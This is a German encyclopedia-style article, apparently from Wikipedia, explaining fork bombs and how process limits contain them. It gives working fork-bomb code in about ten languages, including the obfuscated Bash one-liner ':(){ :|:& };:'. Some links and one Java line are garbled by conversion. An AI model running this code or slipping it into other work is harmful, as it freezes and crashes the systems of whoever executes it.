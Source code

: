 # Fork Bomb

![Fork Bomb](../attachments/Fork_bomb.svg.png)

Eine **Forkbomb** (englisch ''Fork bomb''), auch **Rabbit** genannt, ist ein [dessen einziger Zweck es ist, rekursiv Kopien seiner selbst zu starten, alle verfügbaren Systemressourcen zu verbrauchen und so das System zu blockieren. Unter Unix geschieht das im einfachsten Fall mit dem Aufruf des Fork in einer Endlosschleife sieht eine Forkbomb etwa so aus:

```
 ProgrammX {
   Rufe ProgrammX auf;
   Rufe ProgrammX auf;
   Warte bis ProgrammX beendet wurde;
 }
```

Das Programm ruft zwei Kopien seiner selbst auf und wartet, bis sie wieder beendet wurden. Dieser Zustand wird jedoch niemals erreicht werden, da die Kopien genauso verfahren. Aus einem Programmaufruf werden somit zunächst 2, dann 4, dann 8 und nach nur 10 solcher Zyklen sind bereits über tausend Kopien gestartet und aktiv. Allgemein lässt sich festhalten, dass nach n Zyklen 2<sup>n</sup> Prozesse erzeugt worden sind, ihre Anzahl also exponentiell. Diese verbrauchen, selbst wenn sie keinen komplizierten Code enthalten, [und Speicher zur Verwaltung durch das Betriebssystem. Ein normaler Betrieb beziehungsweise normales Arbeiten ist bereits wenige Sekunden nach Aufruf der Forkbomb nicht mehr möglich.

Der konkrete Effekt einer Forkbomb hängt in erster Linie von der Konfiguration des Betriebssystems ab. Beispielsweise erlaubt PAM auf Unix-ähnlichen Betriebssystemen die Zahl der Prozesse und den maximal zu verbrauchenden Speicher pro Benutzer zu beschränken. „Explodiert“ eine Forkbomb auf einem System, welches diese Möglichkeiten der Beschränkung nutzt, scheitert irgendwann der Versuch, neue Kopien der Forkbomb zu starten und das Wachstum ist eingedämmt.

# Beispiele für Forkbombs 
Um die Stabilität des Systems nicht zu gefährden, wird empfohlen, die nachstehend genannten Beispiele '''nicht''' auszuführen.

## Microsoft-Windows-Batch-Datei 
```
 @echo off
 :start
 start "Forkbomb" /high %0
 goto start
```

## Programmiersprache C 
Beispiel für C unter Unix:
```
#include <unistd.h>
int main(void){
    for(;;)
        fork();
    return 0;
}
```

Beispiel für C unter Windows 
```
#include <windows.h>
int main(int argc, char     *argv) {
  STARTUPINFO si;
  PROCESS_INFORMATION pi;
  ZeroMemory(&si, sizeof(si));
  si.cb = sizeof(si);
  while (1) {
	  SetConsoleCtrlHandler(0, 1);
	  CreateProcess(*argv, 0, 0, 0, 0, CREATE_NEW_CONSOLE, 0, 0, &si, &pi);
  }
  return 0;
}
```

## Java 
Beispiel für Java:
```
public class ForkBomb implements Runnable {
  public static void main(String[args) {
    new ForkBomb().run();
  }

  public void run() {
    new Thread(this).start();
    this.run();
  }
}
```

## Perl 
Beispiel für Perl als Kommandozeilenaufruf:
```
perl -e "fork while fork"
```

## PHP 
```
<?php
while(true) pcntl_fork();
?>
```

## Ruby 
Beispiel für Ruby:
```
loop { fork }
```

## Python 
Beispiel für [Python als Programm:
```
import os
 
while True:
     os.fork()
```

oder als Kommandozeilenaufruf:
```
python -c 'while 1: __import__("os").fork()' 
```

## Bash 
Beispiel für Bourne-Again-Shell in Normalform:
```
function f() {
    f | f&
}
f
```

Um die Eigenschaft als Forkbomb zu verschleiern, wird obiger Code häufig in folgender Kurzform gegeben:

```
:(){ :|:& };:
```

Erklärung:
```
:()      # Definition der Funktion ":" -- immer wenn ":" aufgerufen wird, tue das folgende:
{        # 
    :    # eine neue Kopie von ":" laden
    |    # … und seine Standardausgabe umleiten auf …
    :    # … eine weitere Kopie von ":" (die auch in den Speicher geladen werden muss)
         # (":|:" erzeugt also einfach 2 Kopien von ":", immer wenn es aufgerufen wird)
    &    # die Befehlszeile unabhängig vom aufrufenden Prozess machen (im Hintergrund ausführen)
}        # 
;        # Durch ";" wird die Definition von ":" beendet
:        # …und durch den Aufruf von ":" die Kettenreaktion in Gang gesetzt.
```

# Literatur 
* [S. Raymond]([Eric)]: ''The New hacker's dictionary.'' With foreword and cartoons by [L. Steele Jr.]([Guy)] 3rd edition. MIT Press, Cambridge MA u. a. 1996, ISBN 0-262-68092-0, [Online](http://www.catb.org/jargon/html/F/fork-bomb.html).
* {{Literatur  | Autor = Cyrus Peikari, Anton Chuvakin | Titel = Security warrior | Jahr = 2004 | Verlag = O'Reilly | Ort = Beijing u. a. | ISBN = 0-596-00545-8 }}
